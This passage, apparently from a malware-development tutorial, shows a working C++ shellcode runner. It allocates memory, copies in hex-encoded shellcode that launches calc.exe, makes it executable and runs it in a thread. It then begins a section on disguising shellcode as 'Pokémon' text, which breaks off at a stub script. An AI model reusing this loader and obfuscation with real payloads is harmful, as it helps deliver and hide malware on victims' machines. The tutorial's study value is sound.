 ```c++
		"\x78\x20\x01\xdf\x89\x7d\xf0\x8b"
		"\x50\x1c\x01\xda\x89\x55\xec\x8b"
		"\x58\x14\x31\xc0\x8b\x55\xf8\x8b"
		"\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc"
		"\x8b\x3c\x87\x01\xd7\x66\x83\xc1"
		"\x08\xf3\xa6\x74\x0a\x40\x39\xd8"
		"\x72\xe5\x83\xc4\x26\xeb\x41\x8b"
		"\x4d\xf4\x89\xd3\x8b\x55\xec\x66"
		"\x8b\x04\x41\x8b\x04\x82\x01\xd8"
		"\x31\xd2\x52\x68\x2e\x65\x78\x65"
		"\x68\x63\x61\x6c\x63\x68\x6d\x33"
		"\x32\x5c\x68\x79\x73\x74\x65\x68"
		"\x77\x73\x5c\x53\x68\x69\x6e\x64"
		"\x6f\x68\x43\x3a\x5c\x57\x89\xe6"
		"\x6a\x0a\x56\xff\xd0\x83\xc4\x46"
		"\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 205;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
![](https://680730519-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FhjtCVankMBzHfXUecU9j%2Fuploads%2F7VJrtoOJZB0JKISN4fV6%2Fimage.png?alt=media&token=de3e596d-0721-4e73-aa6c-7f38addad6cb)

Not bad. It's not doing anything malicious, but still... not bad.

# Shellcode -> Pokemon_Shellcode
A simple script converts a shellcode byte Object into the Pokémon Shellcode.

```python
import json

shellcode = (b"\x41\x42\x20\x43")

#Do not edit below
```